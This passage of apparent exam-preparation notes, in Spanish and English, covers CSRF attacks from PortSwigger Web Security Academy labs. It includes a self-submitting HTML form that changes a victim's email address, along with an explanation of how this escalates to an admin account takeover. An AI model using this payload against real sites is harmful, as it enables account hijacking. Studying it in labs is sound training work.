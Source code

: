 ```html
<form method="POST" action="https://<host>.net/my-account/change-email"> 
    <input type="hidden" name="email" value="anything@web-security-academy.net">
</form> 
<script> 
       document.forms[0].submit(); 
</script>
```

⚠️ Si hubiese token anti-csrf no se podría hacer esto porque no sabríamos el token de la víctima.

>Target with no defences against email change function, can allow the privilege escalation to admin role. In the exam changing the email to the `attacker@EXPLOIT.NET` email address on the exploit server can allow the attacker to change the password of the admin user, resulting in privilege escalation.  
>In the exam there is only ***one*** active user, and if the previous stage was completed using an attack that did not require the involving of the active user clicking on a link by performing poison cache or performing phishing attack by means of `Deliver to Victim` function, then CSRF change exploit can be used.  

![csrf-change-email.png](images/csrf-change-email.png)  

[PortSwigger Lab: CSRF vulnerability with no defences](https://portswigger.net/web-security/csrf/lab-no-defenses)  

### Token validation depends request method

Funcionalidad `update email` una vez tenemos acceso con cuente de usuario no privilegiada.

En este caso, existe el token `anti-csrf` único y aleatorio para securizar las peticiones y no sabemos cuál será el de la víctima.

![reqmethod](images/reqmethod.png) 
